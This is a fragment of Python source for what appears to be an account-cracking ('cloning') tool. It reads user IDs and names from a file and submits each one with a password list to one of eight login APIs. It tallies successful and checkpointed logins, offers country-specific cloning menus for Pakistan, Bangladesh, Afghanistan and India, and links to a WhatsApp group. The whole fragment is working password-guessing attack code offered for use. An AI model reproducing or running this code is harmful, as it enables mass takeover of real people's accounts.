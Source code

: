 	                    for user in fo:
	                        ids,names = user.split('|')
	                        passlist = plist
	                        if mthd in ['1','01']:
	                            crack_submit.submit(api1,ids,names,passlist)
	                        elif mthd in ['2','02']:
	                            crack_submit.submit(api2,ids,names,passlist)
	                        elif mthd in ['3','03']:
	                            crack_submit.submit(api3,ids,names,passlist)
	                        elif mthd in ['4','04']:
	                            crack_submit.submit(api4,ids,names,passlist)
	                        elif mthd in ['5','05']:
	                            crack_submit.submit(api5,ids,names,passlist)
	                        elif mthd in ['6','06']:
	                            crack_submit.submit(api6,ids,names,passlist)
	                        elif mthd in ['7','07']:
	                            crack_submit.submit(api7,ids,names,passlist)
	                        elif mthd in ['8','08']:
	                            crack_submit.submit(api8,ids,names,passlist)
	                print('\033[1;37m')
	                linex()
	                print(' The process has completed')
	                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
	                linex()
	                input(' Press enter to back ')
	  
	            elif xd in ['2','02']:
	                                clear()
	                                print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mPakistan cloning\n \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mBangladesh cloning\n \033[1;32m[\033[1;37m3\033[1;32m] \033[1;37mAfghanistan cloning\n \033[1;32m[\033[1;37m4\033[1;32m] \033[1;37mIndia cloning\n \033[1;32m[\033[1;37m0\033[1;32m] \033[1;37mBack menu')
	                                linex()
	                                x=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
	                                if x in ['1','01']:
	                                        pak()
	                                elif x in ['2','02']:
	                                        bd()
	                                elif x in ['3','03']:
	                                        afg()
	                                elif x in ['4','04']:
	                                        ind()        
	                     
	            elif xd in ['3','03']:
	                mm()
	                #create()
	                #dz._login()
	                exit()
	            elif xd in ['4','04']:
	                Create()
	            elif xd in ['5','05']:
	                 os.system('xdg-open https://chat.whatsapp.com/JJfccbKpGu9BChyGH7GoLA')
	            elif xd in ['0','00']:
	                exit(' Thanks for use 🥰 ')
	            else:
	                exit(' Option not found in menu...')
	        